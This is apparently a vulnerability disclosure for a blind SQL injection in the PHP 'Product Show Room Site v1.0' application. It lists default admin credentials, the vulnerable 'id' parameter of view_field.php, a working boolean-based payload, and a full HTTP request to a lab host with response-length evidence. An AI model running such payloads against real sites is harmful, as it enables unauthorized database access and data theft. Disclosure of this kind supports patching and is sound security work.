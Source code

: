 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/fields/view_field.php?id=

Vulnerability location: /psrs/admin/fields/view_field.php?id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/fields/view_field.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/fields/view_field.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 835
![image](https://user-images.githubusercontent.com/54017627/171829933-3373b138-ac43-4293-9839-0991c0f9275e.png)

![image](https://user-images.githubusercontent.com/54017627/171829991-718618fb-36d0-4d42-95ac-d74dff7a5305.png)

When length (database ()) = 7, Content-Length: 628
![image](https://user-images.githubusercontent.com/54017627/171829903-df67293a-67a4-46d0-b552-9f3dc3017814.png)

![image](https://user-images.githubusercontent.com/54017627/171829959-f42c2719-5163-4716-845a-398edd7d7660.png)
